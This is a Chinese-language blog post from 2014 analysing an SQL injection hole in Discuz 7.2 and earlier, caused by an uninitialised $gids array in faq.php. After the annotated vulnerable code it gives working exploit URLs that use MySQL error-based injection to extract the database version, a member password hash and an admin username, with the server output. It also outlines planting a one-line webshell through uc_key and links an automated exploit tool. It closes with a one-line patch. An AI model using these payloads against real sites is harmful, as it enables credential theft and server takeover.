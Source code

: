Title: Discuz7.2及以下版本通杀漏洞分析
Date: 2014-07-03 06:08
Tags: Discuz


2014年7月2日真是个好日子，Discuz7.2及以下版本爆出一个惊天大漏洞，黑客可以直接脱库，甚至可以直接可以写入webshell


#### **1、漏洞代码分析**

请看下面注释分析，其实问题很简单，没有初始化变量，导致用户可以覆盖变量，引起注入。但凡做过开发的同学应该都知道，这个其实是一个很容易犯错的地方。在开发c、c++的时候有pclint工具可以检查，只要使用前没有初始化就报警，这类问题得到了很好的抑制。但脚本语言似乎并没有很好的工具，光靠人的编程技能，还是很难控制以后不会犯同样的错误。Discuz范的这个错误肯定不是偶然的，类似问题其它的网站或轻或重的应该也会存在的。

<code>

} elseif($action == 'grouppermission') {

	require_once './include/forum.func.php';
	require_once language('misc');
	$permlang = $language;
	unset($language);

	$searchgroupid = isset($searchgroupid) ? intval($searchgroupid) : $groupid;
    /* 此处没有对数组变量gids初始化 */
	$groups = $grouplist = array();
	$query = $db->query("SELECT groupid, type, grouptitle, radminid FROM {$tablepre}usergroups ORDER BY (creditshigher<>'0' || creditslower<>'0'), creditslower");
	$cgdata = $nextgid = '';
	while($group = $db->fetch_array($query)) {
		$group['type'] = $group['type'] == 'special' && $group['radminid'] ? 'specialadmin' : $group['type'];
		$groups[$group['type']][] = array($group['groupid'], $group['grouptitle']);
		$grouplist[$group['type']] .= '<option value="'.$group['groupid'].'"'.($searchgroupid == $group['groupid'] ? ' selected="selected"' : '').'>'.$group['grouptitle'].($groupid == $group['groupid'] ? ' &larr;' : '').'</option>';
		if($group['groupid'] == $searchgroupid) {
			$cgdata = array($group['type'], count($groups[$group['type']]) - 1, $group['groupid']);
		}
    }

    /* 根据不同的情况对gids前4位变量进行赋值 */
	if($cgdata[0] == 'member') {
		$nextgid = $groups[$cgdata[0]][$cgdata[1] + 1][0];
		if($cgdata[1] > 0) {
			$gids[1] = $groups[$cgdata[0]][$cgdata[1] - 1];
		}
		$gids[2] = $groups[$cgdata[0]][$cgdata[1]];
		if($cgdata[1] < count($groups[$cgdata[0]]) - 1) {
			$gids[3] = $groups[$cgdata[0]][$cgdata[1] + 1];
			if(count($gids) == 2) {
				$gids[4] = $groups[$cgdata[0]][$cgdata[1] + 2];
			}
		} elseif(count($gids) == 2) {
			$gids[0] = $groups[$cgdata[0]][$cgdata[1] - 2];
		}
	} else {
		$gids[1] = $groups[$cgdata[0]][$cgdata[1]];
	}
	ksort($gids);
    $groupids = array();

    /* 将gids内容拷贝到数组变量groupids中 */
	foreach($gids as $row) {
		$groupids[] = $row[0];
	}

    /* 利用groupids中的内容查询数据，由于gids变量没有初始化，用户可以构造一个请求对gids变量进行覆盖，导致groupids可控，只要闭合下面的IN()，即可注入 */
	$query = $db->query("SELECT * FROM {$tablepre}usergroups u LEFT JOIN {$tablepre}admingroups a ON u.groupid=a.admingid WHERE u.groupid IN (".implodeids($groupids).")");
	$groups = array();
	while($group = $db->fetch_array($query)) {
		$group['maxattachsize'] = $group['maxattachsize'] / 1024;

</code>


#### **2、利用方法**

1、url中传入gids变量，需要闭合in，并利用mysql的floor报错注入法即可实现，如下输入，可以爆出数据库版本

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat(version(),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:01am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php

    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '5.1.28-rc-community1' for key 'group_key'
    Errno.: 1062
    

2、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的密码

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select password from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:06am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
        
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select password from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '0644bf56b4ed45878f306b5f19dc1e0e1' for key 'group_key'
    Errno.: 1062
    

3、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的用户名

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select username from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:07am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
    
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select username from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry 'admin1' for key 'group_key'
    Errno.: 1062


4、写入shell转思路

通过读取uc_key，可以将一句话写入配置文件 `config.inc.php`


5、利用上面的思路自己写了一个小软件，可以实现全自动利用

[工具源码和EXE下载链接](/static/code/diz7.2.rar)

运行效果截图

![Alt text](/static/images/diz7.2.GIF)


#### **3、修复方法**

将如下代码

    $groups = $grouplist = array();

修改为

    $groups = $grouplist = $gids = array();

